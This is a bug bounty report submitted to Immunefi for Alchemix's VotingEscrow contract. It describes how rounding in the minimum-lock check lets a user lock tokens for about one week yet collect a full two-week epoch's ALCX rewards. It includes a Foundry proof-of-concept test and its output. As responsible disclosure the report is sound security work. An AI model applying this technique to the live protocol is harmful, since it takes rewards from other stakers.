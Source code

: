 
# BPT can be locked for only 1 week, resulting in unfair ALCX reward distribution

Submitted on Wed May 15 2024 21:32:46 GMT-0400 (Atlantic Standard Time) by @marchev for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31276

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The 80/20 ALCX/WETH BPT has a minimum lock period of 1 epoch (2 weeks). However, a flaw allows malicious actors to lock their BPT for just 1 week, resulting in unfair ALCX reward distribution. This means a malicious actor can unfairly claim rewards without meeting the minimum 2-week lock requirement.

## Vulnerability Details

The `_createLock()` function is responsible for creating a lock when depositing Balancer Pool Tokens in `VotingEscrow`. It should enforce a minimum lock period of 1 epoch (2 weeks):

```sol
    function _createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _maxLockEnabled,
        address _to
    ) internal returns (uint256) {
	    // ...
        uint256 unlockTime = /** ... */ ((block.timestamp + _lockDuration) / WEEK) * WEEK;

        // ...
        require(unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK), "Voting lock must be 1 epoch");

        // ...
    }
```

However, this check is flawed. A malicious actor can lock BPTs for just 1 week instead of the required 2 weeks. This allows them to unjustly receive rewards as if they had locked their BPTs for a whole epoch, effectively stealing rewards from other participants.

**Example Scenario:**

- Next epoch starts at `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

1. Alice locks 1 BPT for `2 weeks` (1 epoch) at `block.timestamp = 1716422401` (Thu May 23 2024 00:00:01 UTC)
2. Bob locks 1 BPT for `7 days + 1 seconds` at `block.timestamp = 1717027199` (Wed May 29 2024 23:59:59 UTC)
3. The epoch resets on `1717632000` (Thu Jun 06 2024 00:00:00 UTC)

**Expected behavior:** Bob should not be able to lock his BPT for less than 1 epoch (2 weeks).

**Actual behavior:** Alice and Bob receive equal rewards.

Bob circumvents the minimum lock duration check. Here’s why:

```sol
block.timestamp = 1717027199

unlockTime = ((block.timestamp + _lockDuration) / WEEK) * WEEK

unlockTime = ((1717027199 + 7 days + 1 seconds) / WEEK) * WEEK

unlockTime = 1717632000
```

The check performed:

```
unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK)

1717632000 >= (((1717027199 + 2 weeks) / 1 weeks) * 1 weeks)

1717632000 >= 1717632000
```

The check passes for Bob, even though his lock time is only `7 days + 1 second`.

## Impact Details

The flawed minimum lock time check allows users to lock BPTs for only 1 week but still receive rewards for a full epoch. This results in unfair reward distribution, with malicious users effectively stealing rewards from others.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1375-L1381

        
## Proof of concept
## Proof of Concept

The following coded PoC demonstrates the issue.

Add the following test case to `VotingEscrow.t.sol`:

```sol
    function test_can_create_lock_for_less_than_1_epoch() public {
        console.log(newEpoch());

        address alice = address(1337);
        vm.label(alice, "Alice");
        address bob = address(31337);
        vm.label(bob, "Bob");

        // Mint Alice & Bob some BPT
        deal(bpt, alice, 10e18);
        deal(bpt, bob, 10e18);

        // Warp time to exactly 2 weeks before the new epoch
        hevm.warp(newEpoch() - 2 weeks); 

        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 aliceTokenId = veALCX.createLock(1e18, 2 weeks, false);
        voter.reset(aliceTokenId);
        // Alice locks 1 BPT for 2 weeks (the minimum lock period) and reset the tokenId
        hevm.stopPrank();

        // Warp time to 7 days and 2 seconds before the next epoch starts
        hevm.warp(newEpoch() - (7 days + 2 seconds));

        hevm.startPrank(bob);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 bobTokenId = veALCX.createLock(1e18, 7 days + 1 seconds, false);
        // Bob succeeds in locking 1 BPT for 7 days + 1 seconds which is less than the required minimum lock period of 1 epoch (2 weeks)
        voter.reset(bobTokenId);
        hevm.stopPrank();

        // Warp time to the start of the new epoch
        hevm.warp(newEpoch());

        // Distribute the rewards
        voter.distribute();

        // Print the unclaimed rewards accrued by Alice & Bob
        console.log("Unclaimed ALCX (Alice): %s", distributor.claimable(aliceTokenId));
        console.log("Unclaimed FLUX (Alice): %s", flux.getUnclaimedFlux(aliceTokenId));

        console.log("Unclaimed ALCX (Bob): %s", distributor.claimable(bobTokenId));
        console.log("Unclaimed FLUX (Bob): %s", flux.getUnclaimedFlux(bobTokenId));
    }
```

Make sure the following entries are updated in `Makefile`:

```sh
# file to test 
FILE=VotingEscrow

# specific test to run
TEST=test_can_create_lock_for_less_than_1_epoch
```

Run the PoC via:

```sh
make test_file_test
```

PoC output:

```sh
Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] test_can_create_lock_for_less_than_1_epoch() (gas: 3647937)
Logs:
  Unclaimed ALCX (Alice): 1023262077024604404512
  Unclaimed FLUX (Alice): 38356132673449616
  Unclaimed ALCX (Bob): 1023262077024604404512
  Unclaimed FLUX (Bob): 19178113901412783

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 45.46s (33.49s CPU time)

Ran 1 test suite in 46.90s (45.46s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```